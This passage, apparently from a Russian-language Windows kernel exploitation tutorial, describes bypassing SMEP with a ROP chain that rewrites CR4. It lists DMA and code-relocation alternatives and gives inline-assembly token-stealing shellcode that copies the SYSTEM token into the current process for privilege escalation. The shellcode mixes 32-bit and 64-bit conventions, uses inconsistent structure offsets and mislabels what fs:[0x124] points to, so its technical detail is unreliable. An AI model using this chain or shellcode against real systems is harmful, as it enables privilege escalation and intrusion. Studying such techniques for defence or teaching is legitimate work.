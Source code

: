 ### Альтернативные подходы при невозможности изменить CR4

- ROP-цепочка: построение последовательности инструкций, которая изменяет CR4 через существующие гаджеты в ядре или драйверах.  
- Перенос кода: загрузка кода в trusted memory region (например, в память драйвера) и выполнение оттуда, минуя user-mode.  
- DMA-атаки: в очень специфичных условиях можно использовать устройства прямого доступа к памяти для перепрошивки памяти ядра.

## 9. Использование ROP-цепочки для обхода SMEP

Если выполнение собственного кода в режиме ядра невозможно напрямую, одним из эффективных методов обойти это является использование техники Return-Oriented Programming (ROP). Вместо инъекции и исполнения пользовательского кода напрямую, ROP позволяет злоумышленнику перехватывать управление и вызывать последовательность уже существующих инструкций (гаджетов) в доверенных модулях, таких как ntoskrnl.exe или драйверы.

Каждый гаджет обычно заканчивается инструкцией **ret** и выполняет небольшую операцию, например, перенос значения между регистрами или изменение флага. Для обхода SMEP через ROP строится минимальная цепочка, которая выполняет следующую последовательность действий:

1. С помощью гаджета **pop rcx; ret** загружается новое значение в регистр RCX. Это значение должно представлять модифицированный CR4-регистр с отключённым битом SMEP.  
2. Далее через гаджет **mov cr4, rcx; ret** новое значение записывается обратно в регистр CR4.  
3. После этого осуществляется переход на адрес пользовательского шеллкода, например, через **jmp shellcode** или через другой подходящий гаджет.

Поиск необходимых ROP-гаджетов осуществляется с помощью специализированных инструментов вроде ROPgadget, mona.py для Immunity Debugger, или путём ручного анализа бинарных файлов через дизассемблеры (IDA Pro, Ghidra). Важно помнить, что из-за включённого ASLR адреса модулей могут меняться при каждой загрузке системы, поэтому для стабильной работы эксплойта требуется динамическое определение адресов в рантайме.

## 10. Инжекция шеллкода и выполнение полезной нагрузки

После того как защита SMEP успешно обойдена, становится возможным безопасно выполнить произвольный код, размещённый в пользовательской памяти, в контексте ядра. На этом этапе основная задача — внедрить и запустить шеллкод, который реализует полезную нагрузку, например, эскалацию привилегий.

### Простейший пример шеллкода: захват токена SYSTEM

```c
void TokenStealingShellcode() {
    __asm {
        pushad;                   // Сохраняем все регистры на стеке

        mov eax, fs:[0x124];       // Получаем текущий KPCR (Kernel Processor Control Region)
        mov eax, [eax + 0x50];     // Переходим к структуре EPROCESS текущего процесса

    find_system:
        mov ecx, [eax + 0xb8];     // Переходим к следующему элементу в списке процессов
        sub ecx, 0xb8;             // Корректируем смещение до начала EPROCESS
        mov eax, ecx;
        cmp [eax + 0x174], 4;      // Сравниваем PID процесса с 4 (PID процесса SYSTEM)
        jne find_system;           // Если не найден — продолжаем искать

        mov edx, [eax + 0x208];    // Сохраняем токен процесса SYSTEM
        mov eax, fs:[0x124];       
        mov eax, [eax + 0x50];     // Снова получаем EPROCESS текущего процесса
        mov [eax + 0x208], edx;    // Перезаписываем токен нашего процесса токеном SYSTEM

        popad;                    // Восстанавливаем сохранённые регистры
        ret;                      // Возвращаемся к нормальному исполнению
    }
}
```